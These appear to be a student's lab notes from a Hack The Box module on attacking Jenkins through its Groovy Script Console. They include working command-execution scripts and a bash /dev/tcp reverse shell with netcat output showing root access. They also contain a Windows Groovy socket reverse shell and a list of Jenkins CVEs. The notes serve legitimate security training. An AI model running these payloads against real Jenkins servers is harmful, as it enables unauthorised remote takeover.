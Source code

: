 ```yaml
---
description: >-
  a quick way of achieving command execution on the underlying server is via the
  Script Console
---
```


# Attacking Jenkins

**Script Console** -> allows us to run arbitrary Groovy scripts within the Jenkins controller runtime.

we can abuse it to run operating system commands on the underlying server

### Script Console

* URL `http://jenkins.inlanefreight.local:8000/script`
* &#x20;This console allows a user to run Apache [Groovy](https://en.wikipedia.org/wiki/Apache\_Groovy) scripts
  * object-oriented Java-compatible language similar to Python and Ruby
* Groovy source code gets compiled into Java Bytecode and can run on any platform that has JRE installed
* it is possible to run arbitrary commands, functioning similarly to a web shell

**Groovy script**

```groovy
def cmd = 'id'
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = cmd.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println sout
```

<figure><img src="https://academy.hackthebox.com/storage/modules/113/groovy_web.png" alt=""><figcaption><p>http://jenkins.inlanefreight.local:8000/script</p></figcaption></figure>

**Groovy reverse shell**

```groovy
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.14.15/8443;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

```shell-session
nc -lvnp 8443

listening on [any] 8443 ...
connect to [10.10.14.15] from (UNKNOWN) [10.129.201.58] 57844

id

uid=0(root) gid=0(root) groups=0(root)

/bin/bash -i

root@app02:/var/lib/jenkins3#
```

* we could attempt to add a user and connect to the host via RDP or WinRM

**commands for a Windows-based Jenkins**

```groovy
def cmd = "cmd.exe /c dir".execute();
println("${cmd.text}");
```

We could also use [this](https://gist.githubusercontent.com/frohoff/fed1ffaab9b9beeb1c76/raw/7cfa97c7dc65e2275abfb378101a505bfb754a95/revsh.groovy) Java reverse shell to gain command execution on a Windows host

**Groovy Windows reverse shell**

```groovy
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

## Miscellaneous Vulnerabilities

* recent exploit combines two vulnerabilities, CVE-2018-1999002 and [CVE-2019-1003000](https://jenkins.io/security/advisory/2019-01-08/#SECURITY-1266) to achieve pre-authenticated remote code execution
* Public exploit PoCs exist to exploit a flaw in Jenkins dynamic routing to bypass the Overall / Read ACL and use Groovy to download and execute a malicious JAR file
* Another vulnerability exists in Jenkins 2.150.2, which allows users with JOB creation and BUILD privileges to execute code on the system via Node.js
  * This requires authentication, but if anonymous users are enabled, the exploit will succeed because these users have JOB creation and BUILD privileges by default.

## Assessment

Attack the Jenkins target and gain remote code execution. Submit the contents of the flag.txt file in the /var/lib/jenkins3 directory

<figure><img src="../../../.gitbook/assets/ภาพ (9).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/ภาพ (8).png" alt=""><figcaption></figcaption></figure>
